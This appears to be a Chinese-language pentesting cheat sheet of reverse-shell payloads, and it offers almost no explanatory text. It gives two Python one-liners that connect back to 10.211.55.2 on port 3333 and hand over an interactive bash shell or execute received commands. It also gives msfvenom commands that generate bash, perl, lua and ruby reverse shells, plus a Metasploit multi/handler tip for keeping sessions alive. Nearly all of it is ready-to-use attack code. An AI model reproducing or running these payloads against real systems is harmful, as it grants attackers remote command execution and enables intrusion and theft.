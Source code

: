 复制

**Python正向shell**

```jsx
python/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.2",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

python/python3 -c "exec(\\"import socket, subprocess;s = socket.socket();s.connect(("10.211.55.2",3333))\\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\\")"

```

复制

**Bash**

```jsx
msfvenom -p cmd/unix/reverse_bash LHOST=10.211.55.2 LPORT=3333 -f raw > shell.sh

```

复制

**Perl**

```jsx
msfvenom -p cmd/unix/reverse_perl LHOST=10.211.55.2 LPORT=3333 -f raw > shell.pl

```

复制

**Lua**

```jsx
msfvenom -p cmd/unix/reverse_lua LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.lua

```

复制

**Ruby**

```jsx
msfvenom -p ruby/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.rb

```

# 使用注意事项

防⽌止假session

在实战中，经常会遇到假session或者刚连接就断开的情况，这⾥里里补充⼀一些监听参数，防⽌止假死与假session。

```
msf exploit(multi/handler) > set ExitOnSession false //可以在接收到seesion后继续监听端口，保持侦听

```
